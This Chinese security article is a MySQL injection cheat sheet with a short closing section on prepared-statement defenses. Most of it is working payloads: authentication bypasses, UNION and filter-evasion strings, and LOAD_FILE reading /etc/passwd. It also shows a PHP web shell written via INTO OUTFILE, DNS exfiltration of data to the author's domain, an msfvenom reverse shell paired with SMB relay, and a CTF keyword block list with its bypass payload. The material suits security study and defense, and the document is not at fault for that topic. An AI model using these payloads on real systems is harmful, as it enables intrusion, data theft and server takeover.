

# 【技术分享】MySQL 注入攻击与防御


                                阅读量   
                                **551495**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    
                                                                                            


[](./img/85936/t0195084a85c2713ce1.jpg)


作者：[rootclay](http://bobao.360.cn/member/contribute?uid=573700421)

预估稿费：500RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿


**本文主要是做一个Mysql的注入总结，对于Mysql来说利用的方式太过于灵活，这里总结了一些主流的一些姿势，如果有好的姿势可以多加交流，文章如果有错也欢迎各位dalao指出:)**

<br>

**注入常用函数与字符**

下面几点是注入中经常会用到的语句

控制语句操作(select, case, if(), …)

比较操作(=, like, mod(), …)

字符串的猜解操作(mid(), left(), rpad(), …)

字符串生成操作(0x61, hex(), conv()(使用conv([10-36],10,36)可以实现所有字符的表示))

<br>

**测试注入**

可以用以下语句对一个可能的注入点进行测试

[](https://p4.ssl.qhimg.com/t01eb936236b9d9d96c.png)

<br>

**注释符**

以下是Mysql中可以用到的注释符：

[](https://p1.ssl.qhimg.com/t01ac901bace4cef772.png)

Examples:

```
SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';
```


**版本&amp;主机名&amp;用户&amp;库名**

[](https://p2.ssl.qhimg.com/t018291c436b003948a.png)

<br>

**表和字段**

**确定字段数**

**ORDER BY**

ORDER BY用于判断表中的字段个数

[](https://p4.ssl.qhimg.com/t01ff80a493e1d53f54.png)

**SELECT … INTO**

关于SELECT … INTO 的解释可以看这一篇文章[SELECT … INTO解释](http://www.w3school.com.cn/sql/sql_select_into.asp)

[](https://p2.ssl.qhimg.com/t01f4578480fd2cc03c.png)

当出现LIMIT时可以用以下语句：

```
SELECT username FROM Users limit 1,{INJECTION POINT};
```

[](https://p1.ssl.qhimg.com/t013479aebc9b69501a.png)

**判断已知表名的字段数**


```
AND (SELECT * FROM SOME_EXISTING_TABLE) = 1
SELECT passwd FROM Users WHERE id = {INJECTION POINT};
```

[](https://p5.ssl.qhimg.com/t019d54bde51ebe64f2.png)

**查表名**

以下提过几种方式对库中表进行查询

[](https://p0.ssl.qhimg.com/t0155048471f00168a5.png)

**查列名**

以下提过几种方式对表中列进行查询

[](https://p2.ssl.qhimg.com/t01eae67f1a790933b2.png)

<br>

**字符串连接**

下面的几条语句都可以用以连接字符

[](https://p4.ssl.qhimg.com/t018335751883aa5247.png)

<br>

**条件语句&amp;时间函数**

[](https://p2.ssl.qhimg.com/t01253d689f16f14ad9.png)

其中BENCHMARK函数是指执行某函数的次数，次数多时能够达到与sleep函数相同的效果

<br>

**文件操作**

**文件操作权限**

在MySQL中，存在一个称为secure_file_priv的全局系统变量。 该变量用于限制数据的导入和导出操作，例如SELECT … INTO OUTFILE语句和LOAD_FILE()

如果secure_file_priv变量为空那么直接可以使用函数,如果为null是不能使用

但在mysql的5.5.53之前的版本是默认为空,之后的版本为null,所有是将这个功能禁掉了

[](https://p0.ssl.qhimg.com/t01e121abebefe6e84f.png)

也可使用如下语句查询

[](https://p4.ssl.qhimg.com/t0145979a90ded45b80.png)

**读文件**

读文件函数LOAD_FILE()

Examples:

```
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE(0x2F6574632F706173737764);
```

注意点： 

1. LOAD_FILE的默认目录@@datadir 

2. 文件必须是当前用户可读 

3. 读文件最大的为1047552个byte, @@max_allowed_packet可以查看文件读取最大值

**写文件**

INTO OUTFILE/DUMPFILE

经典写文件例子：

To write a PHP shell:

```
SELECT '&lt;? system($_GET['c']); ?&gt;' INTO OUTFILE '/var/www/shell.php';
```

这两个函数都可以写文件，但是有很大的差别 

INTO OUTFILE函数写文件时会在每一行的结束自动加上换行符 

INTO DUMPFILE函数在写文件会保持文件得到原生内容，这种方式对于二进制文件是最好的选择 

当我们在UDF提权的场景是需要上传二进制文件等等用OUTFILE函数是不能成功的 

网上有很多文章介绍，比如[这篇](http://www.cnblogs.com/milantgh/p/5444398.html)

注意点： 

1. INTO OUTFILE不会覆盖文件 

2. INTO OUTFILE必须是查询语句的最后一句 

3. 路径名是不能编码的，必须使用单引号

<br>

**带外通道**

关于带外通道的注入前段时间国外的大佬已经总结过了，我基本复现了一下，博客有文章，这里简单提一下

**什么是带外通道注入？**

带外通道攻击主要是利用其他协议或者渠道从服务器提取数据. 它可能是HTTP（S）请求，DNS解析服务，SMB服务，Mail服务等.

**条件限制**

首先不用多说,这些函数是需要绝对路径的

如果secure_file_priv变量为空那么直接可以使用函数,如果为null是不能使用

但在mysql的5.5.53之前的版本是默认为空,之后的版本为null,所有是将这个功能禁掉了

**DNS注入**


```
select load_file(concat('\\',version(),'.rootclay.club\clay.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874));
```

上面的语句执行的结果我们可以通过wireshark抓包看一下，过滤一下DNS协议即可清晰看到数据出去的样子，如下图

[](https://p5.ssl.qhimg.com/t01553fbd77cc3d7e90.png)

进行DNS注入需要域名解析，自己有的话最好，但是没有的朋友也没事，这里推荐一个网站CEYE可以查看数据

**SMB Relay 注入攻击**

**What is SMB relay**

这里简单的描述一下SMB relay这个过程

假设有主机B与A 

(1) A向B发起连接请求 

(2) B向A发送挑战(一组随机数据，8字节) 

(3) A用源自明文口令的DESKEY对挑战进行标准DES加密得到响应，并发往B 

(4) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对前面发往A的挑战进 

行标准DES加密 

(5) 如果(4)中计算结果与A送过来的响应匹配，A被允许访问B 

现在假设一个攻击者C卷入其中 

(1) C向B发起连接请求 

(2) B向C发送挑战D(一组随机数据) 

(3) C等待A向B发起连接请求 

(4) 当A向B发起连接请求时，C伪造成B向A发送挑战D 

(5) A用源自明文口令的DESKEY对挑战D进行标准DES加密得到响应E，并发往B 

(6) C截获到响应E，将它做为针对(2)中挑战D的响应发往B，并声称自己是A 

(7) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对挑战D进行标准DES 

加密 

(8) 如果(7)中计算结果与C送过来的响应匹配，C被允许以A的身份访问B。

**攻击流程**

[](https://p4.ssl.qhimg.com/t016908686e4caa0de8.png)

关于SMB relay攻击窃取NTML与shell请看这篇文章[SMB Relay Demystified and NTLMv2 Pwnage with Python](http://pen-testing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)

整理了一下实际操作的步骤如下: 

1. 首先生成一个反向shell: 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=攻击机监听端口 -f exe &gt; reverse_shell.exe
```

2. 运行[smbrelayx](https://github.com/CoreSecurity/impacket)，指定被攻击者和生成的反向shell，等待连接。 

smbrelayx.py -h 被攻击者ip -e 反向shell文件位置 

3. 使用模块multi/handler。侦听攻击机ip,攻击机监听端口 

4. 在MySQL Server上运行如下的代码，则会产生shell。相当于访问攻击机的smb服务,但实际上是窃取了mysql_server的身份 

```
select load_file('\攻击机ipaa');
```


**绕过技巧**

**绕过单引号**

[](https://p4.ssl.qhimg.com/t014399c36b6b83fab5.png)

**大小写绕过**

```
?id=1+UnIoN+SeLecT+1,2,3--
```

**替换绕过**

```
?id=1+UNunionION+SEselectLECT+1,2,3--
```

**注释绕过**

```
?id=1+un/**/ion+se/**/lect+1,2,3--
```

**特殊嵌入绕过**

```
?id=1/*!UnIoN*/SeLecT+1,2,3--
```

**宽字节注入**

SQL注入中的宽字节国内最常使用的gbk编码，这种方式主要是绕过addslashes等对特殊字符进行转移的绕过。反斜杠()的十六进制为%5c，在你输入%bf%27时，函数遇到单引号自动转移加入，此时变为%bf%5c%27，%bf%5c在gbk中变为一个宽字符“縗”。%bf那个位置可以是%81-%fe中间的任何字符。不止在sql注入中，宽字符注入在很多地方都可以应用。

**MySQL版本号字符**

Examples:


```
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+<br>SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

这样的查询语句是可以执行的，我理解为类似Python中第一行注释指定解析器一样#!/bin/sh

对于小于或等于版本号的语句就会执行

例如目前的Mysql版本为5.7.17那么/!50717/及其以下的语句即可执行

**字符编码绕过**

前段时间看到ph师傅的博客是讨论mysql字符编码的文章，大概意思如下，原文在[这里 ](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)

当出现有以下代码时，指设置了字符编码为utf-8，但并不是全部为utf-8，而在具体的转换过程中会出现意外的情况，具体可以看ph师傅的文章

```
$mysqli-&gt;query("set names utf8");
```

在sql查询中

test.php?username=admin%e4中的%e4会被admin忽略掉而绕过了一些逻辑，还有一些类似于$e4这样的字符如%c2等

**绕空格**

**特殊字符绕过空格**

[](https://p3.ssl.qhimg.com/t01dbdfb9b9041b58bf.png)

Example:

```
'%0AUNION%0CSELECT%A0NULL%20%23
```

**括号绕过空格**

[](https://p4.ssl.qhimg.com/t0117ec13f9a2167a68.png)

Example:

```
UNION(SELECT(column)FROM(table))
```

**and/or后插入字符绕过空格**

任意混合+ – ~ !可以达到绕过空格的效果（可以现在本地测试，混合后需要的奇偶数可能不同）


```
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and-++-1=1;需要偶数个--
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and!!~~~~!1=1;需要奇数个！
```

其实一下的字符都可以测试

[](https://p2.ssl.qhimg.com/t0196e8f61c4c17280f.png)

**注释符&amp;引号**


```
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and/**/1=1;
SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and"1=1";
```

**编码绕过**

[](https://p0.ssl.qhimg.com/t013b5957d9c9c95552.png)

**关键字绕过**

测试用例information_schema.tables

[](https://p0.ssl.qhimg.com/t01f8a6735b7854e099.png)

**认证绕过**

绕过语句：'='


```
select data from users where name="="
select data from users where flase="
select data from users where 0=0
```

绕过语句：'-'


```
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0
```

比如登录的时候需要输入email和passwd，可以这样输入

```
email=''&amp;password=''
```

类型转换


```
' or 1=true
' or 1
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'
select * from users where (0)='c'
select * from users where (0)=0
select * from users where true
select * from users
```

我们还有关于此的漏洞，就以一次CTF的题目来说(源码如下)：


```
&lt;?php
class fiter{
    var $str;
    var $order;
    function sql_clean($str){
        if(is_array($str)){
            echo "&lt;script&gt; alert('not array!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }
        $filter = "/ |*|#|,|union|like|regexp|for|and|or|file|--|||`|&amp;|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."/i";
        if(preg_match($filter,$str)){
            echo "&lt;script&gt; alert('illegal character!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }else if(strrpos($str,urldecode("%00"))){
            echo "&lt;script&gt; alert('illegal character!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }
        return $this-&gt;str=$str;
    }
    function ord_clean($ord){
        $filter = " |bash|perl|nc|java|php|&gt;|&gt;&gt;|wget|ftp|python|sh";
        if (preg_match("/".$filter."/i",$ord) == 1){
            return $this-&gt;order = "";
        }
        return $this-&gt;order = $ord;
    }
}
```

这里过滤了很多关键词了，需要用到类型转换了，这里我们用+号

Payload如下：

```
uname=aa'+(ascii(mid((passwd)from(1)))&gt;0)+'1
```

执行的SQL语句如下：

```
xxxxxx where username = 'aa'+(ascii(mid((passwd)from(users)))&gt;0)+'1'
```

这样就可以开始写脚本跑数据了

除了＋号，其他算术操作符号也会发生类型的类型转换，例如MOD，DIV，＊，／，％，－， 

关于隐式类型转换的文章可以看[这里](http://www.freebuf.com/articles/web/8773.html)

**HTTP参数污染**

当我们传入的参数为

[http://sqlinjection.com/?par1=val1&amp;par1=val2](http://sqlinjection.com/?par1=val1&amp;par1=val2)

进入到不同的Web Server就可能得到不同的结果，这里借鉴一下国外大佬一篇文章的总结，如下：

[](https://p0.ssl.qhimg.com/t0197dc5c6f43549a3c.png)

不同的web server的处理结果截然不同

[](https://p0.ssl.qhimg.com/t0164b9cd6914fa6118.png)

这里也推荐一篇国外的[文章](http://www.blackhat.com/presentations/bh-usa-09/DZULFAKAR/BHUSA09-Dzulfakar-MySQLExploit-SLIDES.pdf)

<br>

**实战正则过滤绕过**

[](https://p3.ssl.qhimg.com/t01a0ae1e1dd09389f8.png)

<br>

**防御手段(代码以PHP为例)**

像WAF之类防御手段自己无能为力经常打补丁就好，这里主要提一下代码层面的问题 

推荐使用下面的方式进行查询：

**MYSQLi**


```
$stmt = $db-&gt;prepare('update name set name = ? where id = ?');
$stmt-&gt;bind_param('si',$name,$id);
$stmt-&gt;execute();
```

**ODBC**


```
$stmt = odbc_prepare( $conn, 'SELECT * FROM users WHERE email = ?' );
$success = odbc_execute( $stmt, array($email) );
```

或者


```
$dbh = odbc_exec($conn, 'SELECT * FROM users WHERE email = ?', array($email));
$sth = $dbh-&gt;prepare('SELECT * FROM users WHERE email = :email');
$sth-&gt;execute(array(':email' =&gt; $email));
```

**PDO**


```
$dbh = new PDO('mysql:dbname=testdb;host=127.0.0.1', $user, $password);
$stmt = $dbh-&gt;prepare('INSERT INTO REGISTRY (name, value) VALUES (:name, :value)');
$stmt-&gt;bindParam(':name', $name);
$stmt-&gt;bindParam(':value', $value);
// insert one row
$name = 'one';
$value = 1;
$stmt-&gt;execute();
```

或者


```
$dbh = new PDO('mysql:dbname=testdb;host=127.0.0.1', $user, $password);
$stmt = $dbh-&gt;prepare('UPDATE people SET name = :new_name WHERE id = :id');
$stmt-&gt;execute( array('new_name' =&gt; $name, 'id' =&gt; $id) );
```

**框架**

对于框架的话只要遵循框架的API就好，例如wp的查询


```
global $wpdb;
$wpdb-&gt;query(
    $wpdb-&gt;prepare( 'SELECT name FROM people WHERE id = %d OR email = %s',
        $person_id, $person_email
    )
);
```

或者


```
global $wpdb;
$wpdb-&gt;insert( 'people',
        array(
            'person_id' =&gt; '123',
            'person_email' =&gt; 'bobby@tables.com'
        ),
    array( '%d', '%s' )
);
```


**参考**

这篇文章主要是做一个总结，有的点可能描述的不是很细致，可以自己再深入研究

[https://www.defcon.org/images/defcon-17/dc-17-presentations/defcon-17-joseph_mccray-adv_sql_injection.pdf](https://www.defcon.org/images/defcon-17/dc-17-presentations/defcon-17-joseph_mccray-adv_sql_injection.pdf) 

[https://www.ptsecurity.com/upload/corporate/ww-en/download/PT-devteev-CC-WAF-ENG.pdf](https://www.ptsecurity.com/upload/corporate/ww-en/download/PT-devteev-CC-WAF-ENG.pdf) 

[https://media.blackhat.com/bh-us-12/Briefings/Ristic/BH_US_12_Ristic_Protocol_Level_Slides.pdf](https://media.blackhat.com/bh-us-12/Briefings/Ristic/BH_US_12_Ristic_Protocol_Level_Slides.pdf) 

[https://www.exploit-db.com/papers/17934/](https://www.exploit-db.com/papers/17934/) 

[http://wooyun.jozxing.cc/static/drops/tips-7299.html](http://wooyun.jozxing.cc/static/drops/tips-7299.html)  

[http://www.cnblogs.com/helingfeng/p/6486854.html](http://www.cnblogs.com/helingfeng/p/6486854.html) 

[http://voice0fblackhat.blogspot.com/2012/01/tut-waf-bypassing-tut-sharing.html](http://voice0fblackhat.blogspot.com/2012/01/tut-waf-bypassing-tut-sharing.html) 
